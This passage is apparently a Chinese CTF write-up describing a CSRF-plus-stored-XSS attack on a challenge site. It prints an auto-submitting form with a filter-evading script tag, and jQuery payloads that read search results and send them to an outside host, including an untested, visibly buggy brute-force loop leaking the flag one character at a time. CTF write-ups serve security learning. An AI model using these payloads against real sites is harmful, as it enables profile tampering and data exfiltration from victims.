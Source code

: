 后来发现提交的链接是会被点击的，那么思路很简单了，就是构造一个自动提交来修改查看人的个人信息，然后执行js

payload
```
<html>
<head>
    <script src="jquery-3.1.0.min.js"></script>
</head>

<body>
<form action="http://58.213.63.30:10003/checkProfile.php" method="POST" id="profile" enctype="multipart/form-data">
        <input class="form-control" name="nick" id="nick" />
        <input class="form-control" name="age" id="age" />
        <input class="form-control" name="address" id="address" />
</form>
<script>
$("form input:eq(0)").val("\<scriscriptpt src=http:\/\/119.29.192.14\/2\>");
$("form input:eq(2)").val('\<\/scrscriptipt\>');
$("form").submit();
</script>
</body>
</html>
```

这payload是打到后台后随便找了个人扒的，这部分很简单就不赘述了

关键是要执行什么js呢，仔细看看上面的信息，cookie是httponly的，所以我们没办法获取cookie，那么flag只有可能是存在note中的了，而note中只显示6条（听蓝猫师傅说这里是极乐净土....），search处可以查询，但是需要逐位跑，这样就需要一个脚本了...(这里有个新的问题，也就是导致我没有获得flag的最大问题...脚本执行时间有限，我使用了跑完返回的方式...结果一次都没收到，我以为是别的问题，还跑了一下note的条数)

```
这个是返回数目的payload

$.get('http://58.213.63.30:10003/search.php?keywords=%', function(result){
  $.get('http://0xb.pw?a='+ escape(result.substr(2400,30)));
})
```

还有打flag的payload
```
tab="0123456789abcdefghijklmnopqrstuvwxyz}"                                    
str=''                                                                         
$.ajaxSettings.async=false                                                     
for(i=0;i<40;i++){                                                                   
  for(i=0;i<tab.length;i++){                                                   
    flag=false                                                                 
    x=$.get('http://58.213.63.30:10003/search.php?keywords='+str+tab[i]); 
    if(x.status==404) flag=true;                                               
    if(!flag) break;                                                           
  }                                                                            
  $.get("http://0xb.pw/?a="+escape(tab[i]))
  str+=tab[i];                                                                 
} 
```

还没测试就关题目了...就这样吧


  [1]: http://static.zybuluo.com/LoRexxar/t2e9kvty7o8xv0kj5x7uh18d/image_1b9uuk1n36lm1gonn8bemmv99.png